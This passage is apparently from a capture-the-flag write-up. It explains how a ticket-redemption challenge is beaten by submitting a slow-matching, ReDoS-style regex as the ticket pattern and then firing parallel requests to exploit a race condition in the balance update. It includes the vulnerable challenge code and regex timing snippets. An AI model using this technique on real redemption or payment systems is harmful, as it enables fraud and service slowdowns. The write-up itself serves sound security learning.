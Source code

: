 Also, we have a weird regex matching :

```py
def generateTicket(username):
    return "%s-[0-9A-F]{4}$"%username

def checkTicket(regex, ticket):
    return re.match(regex, ticket)
```

From here, we can see that to redeem a ticket, we can use any ticket (string) that matches this regex made in the token, like `admin-[0-9A-F]{4}$`. `admin-1234` or `admin-FFFF` are two examples. After redeeming them, we will get 10 points but we wont be able to redeem again.

```py
def userRedeem(username):
    users = getUsers()
    users[username]["redeemed"] = True
    users[username]["balance"] += 10
    updateUsers(users)
```

The idea here is similar to a ReDos attack but we will simulate a **Race condition** to make the first redeeming wait, then, send others on parallel (4 requests) to enhance balance and buy the flag.

To do that, we need to find some interesting regex with examples that takes time to match, here are some examples :

```py
import re
import time

regex = r'([a-z]+)\1{50}'
string = 'abcdefghijklmnopqrstuvwxyz' * 30000

start_time = time.time()
match = re.match(regex, string)
end_time = time.time()

duration = end_time - start_time
print(f"Matching duration: {duration:.4f} seconds")
```

or

```py
import re
import time

regex = "(.*a){28}"
string = "aaaaaaaaaaaaaaaaaaaaaaaaaaaa"

start_time = time.time()
match = re.match(regex, string)
end_time = time.time()

duration = end_time - start_time
print(f"Matching duration: {duration:.4f} seconds")
```
